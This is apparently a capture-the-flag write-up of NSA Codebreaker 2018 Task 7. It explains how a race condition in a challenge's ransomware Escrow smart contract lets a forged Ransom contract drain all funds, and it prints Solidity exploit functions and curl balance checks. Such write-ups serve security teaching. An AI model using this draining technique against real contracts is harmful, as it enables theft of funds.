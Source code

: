 ```yaml
---
title: "NSA Codebreaker 2018 Task 7"
author: "Andrew Quach"
date: 2019-01-16T00:00:00-07:00
categories: ['Writeups']
tags: ['codebreaker']
caption: ""

draft: false
---
```


**Refunds – (Smart-Contract Development; Vulnerability Analysis; Exploit Development)**

Task 7 has us refund the victims who have already paid the ransom. In other words, we need to recover all the funds in the Escrow contract, then transfer the funds to the victims. Recall that from [task 6](https://www.osusec.org/nsa-codebreaker-2018-task-6/), we found that we could deploy and authenticate arbitrary ransom contracts.

#### Scanning for Vulnerabilities

A natural place we can start looking for a vulnerability is the **requestRefund()** function.

```
function requestRefund(uint id, uint amount) external restrictSenderToVictim(id) returns (bool) {
    address payer = vicToPayerMap[id];
    if (payer > 0 && escrowMap[id] >= amount && amount > 0) {
        escrowMap[id] -= amount;
        payer.transfer(amount);
        return true;
    }
    return false;
}
```

The victims can retrieve unused funds paid into the Escrow contract using **requestRefund()**. However, this function seems difficult to exploit as **escrowMap\[id]** only gets increased when ether is paid into the contract. Getting an arbitrary amount past the **escrowMap\[id] >= amount** guard would prove to be rough. So, perhaps there is another **transfer()** call that is easier to exploit.

```
function decryptCallback(uint id, bytes32 decKey, bool authResult) external restrictSenderToOracle {
    require(bytes(encFileMap[id]).length != 0, "missing encrypted file");
    delete encFileMap[id]; // no longer needed

    decKeyMap[id] = decKey;
    emit DecryptCallbackEvent(id, authResult);

    Victim storage vicInfo = victimMap[id];
    escrowMap[id] -= vicInfo.ransomAmount;

    if (authResult) {
        ownerBalance += vicInfo.ransomAmount;
        Ransom(vicInfo.ransomAddr).fulfillContract();
    } else {
        vicToPayerMap[id].transfer(vicInfo.ransomAmount); 
    } 
```

A few lines down, we see that the **decryptCallback()** function also transfers funds to the victim. This time, there is no guard. It just refunds the Ransom contract’s ransom amount to the victim upon decryption failure. Fortunately for us, we can control anything in the Ransom contract. If we make a fake Ransom contract with the ransom amount equal to all the funds in the Escrow contract (300 ether + 10 wei), we completely drain the Escrow contract.

![Diagram of the Escrow Contract](/blog/nsa-codebreaker-2018-task-7-escrow-contract.png)

Recall from task 6, we learned how the decryption process functions. We need the oracle to call **decryptCallback()** with our fake Ransom contract in place. But to do so, we need to execute **payRansom()**. And to execute **payRansom()** without paying, we need the ransom amount to be zero. How can we have the ransom amount be both 0 ether and 300 ether?

#### Race Condition

Ideally, the ransom amount would be 0 ether at **payRansom()** and 300 ether at **decryptCallback()**. To set up this situation, we can abuse the fact that the oracle is off-chain and slow. We can

1. Set up a ransom contract with no ransom.
2. Call **payRansom()**.
3. Call **decryptKey()**.
4. Reinitialize the ransom contract to have a 300 ether ransom.
5. Let the oracle run **decryptCallback()**.
6. Profit!

#### Clarifying Questions

There are a few questions about this exploit that arise.

**Q:** First, why do we need to call **payRansom()** if we can just call **decryptKey()** directly?
**A:** The **DecryptEvent** requires **encFileMap\[id]** which is only set in **payRansom()**. This may not be necessary since we want the **DecryptEvent** to fail anyway, but I didn’t risk it. Either way, it doesn’t add much more work.

**Q:** Second, why do we need to race the **DecryptEvent**? Can’t we swap steps 3 and 4?
**A:** The **decryptKey()** call has the **hasPaidRansom(id)** modifier, defined by (**escrowMap\[id] >= victimMap\[id].ransomAmount**). Since we did not pay anything, we need the ransom amount to still be zero at this point. 

#### Draining the Escrow Contract

We can set up a withdraw function following the described steps.

```
function withdrawl() external {
    // Set encrypted file
    Escrow(escrowAddr).payRansom(victimId, "dummy value");
    // Call decrypt event
    Escrow(escrowAddr).decryptKey(victimId, "dummy key");
    // Race decrypt event
    modifyRansom(300000000000000000010 wei);
}
```

The call to **modifyRansom()** simply re-registers the ransom with the same victim ID and address but a different ransom amount. We register the ransom with **victimAddr = address(this)** to bypass the **restrictSenderToVictim(id)** modifier in **payRansom()**.

```
function modifyRansom(uint newRansomAmount) internal {
    Escrow(escrowAddr).registerRansom(newRansomAmount, victimId, victimAddr);
}
```

We have **requestKey()** do nothing, keeping it there only so **payRansom()** does not error.

```
function requestKey() external view onlyAuthenticated {
}
```

Lastly, we set up a payable fallback function to receive the payments.

```
function () payable public {
}
```

And with that, upon authenticating our RefundRansom contract and calling our newly created **withdrawl()** function, we recover all the funds in the Escrow contract.

#### Refunding the Victims

To refund we the victims, we just need to add a way to transfer the funds from our RefundRansom contract.

```
function sendPayment(address addr, uint amount) external {
    addr.transfer(amount);
}
```

Although this could do with better permission modifiers, the function does its job.

After manually refunding the three victims who paid the ransom, we can check to see if everything worked as expected.

```
curl -X POST --data '{"jsonrpc":"2.0","method":"eth_getBalance","params":["0xe160365793baef0d971765be8180275f9fea2b3d", "latest"],"id":1}' -H "Content-Type: application/json" $URL

Beforehand: 0x15acbdd634f769000 = 24989310376000000000
Afterwards: 0x6c6933b90b2869000 = 124989310376000000000

curl -X POST --data '{"jsonrpc":"2.0","method":"eth_getBalance","params":["0x139f8f562dadc241e42744c99ef803381f3e1d08", "latest"],"id":1}' -H "Content-Type: application/json" $URL
Beforehand: 0x15acbdd634f769000 = 24989310376000000000
Afterwards: 0x6c6933b90b2869000 = 124989310376000000000

curl -X POST --data '{"jsonrpc":"2.0","method":"eth_getBalance","params":["0x6c8e1acf3e73f2a0a03dbfc8f1a14269677b7ac5", "latest"],"id":1}' -H "Content-Type: application/json" $URL
Beforehand: 0x15acbdd634f769000 = 24989310376000000000
Afterwards: 0x6c6933b90b2869000 = 124989310376000000000
```

All the victims have indeed received the ether that is rightfully theirs!

[Here is the full RefundRansom contract.](https://gist.github.com/Aqcurate/d6c6fd6087ef73aaa10449641d48b795)

#### Submission Details

**Escrow Address:** 0x147c5B6fBdE084D96c4b3BfAb72f208E78bae6b8

![Screenshot of Task 7 on NSA Codebreaker Challenge website complete](/blog/nsa-codebreaker-2018-task-7-finished.png)
